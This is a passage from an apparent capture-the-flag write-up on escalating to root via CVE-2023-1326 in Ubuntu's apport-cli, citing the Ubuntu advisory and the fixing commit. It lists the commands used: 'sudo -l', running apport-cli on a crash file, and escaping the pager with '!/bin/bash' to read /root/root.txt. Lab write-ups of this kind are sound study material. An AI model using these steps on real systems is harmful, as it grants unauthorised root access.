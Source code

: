 running `sudo -l` we find 
![[Pasted image 20231127032532.png]]

after looking online for that version and exploit we come across ubuntu security page
https://ubuntu.com/security/CVE-2023-1326
it talks about the exploit and also links a github page 
![[Pasted image 20231127040155.png]]

visiting the 
https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb page we find
![[Pasted image 20231127040232.png]]

lets cd to /var/crash to look for any crash file, at the time of writing this writup there was a crash file 
![[Pasted image 20231127040349.png]]

## privesc steps
- do `sudo /usr/bin/apport-cli  -c _usr_bin_sleep.1000.crash`
![[Pasted image 20231127040436.png]]
- select V (view report)
- wait for some time to see the `:` 
![[Pasted image 20231127040523.png]]

- now we do `!/bin/bash`
![[Pasted image 20231127040600.png]]
- we get root, you can find the /root/root.txt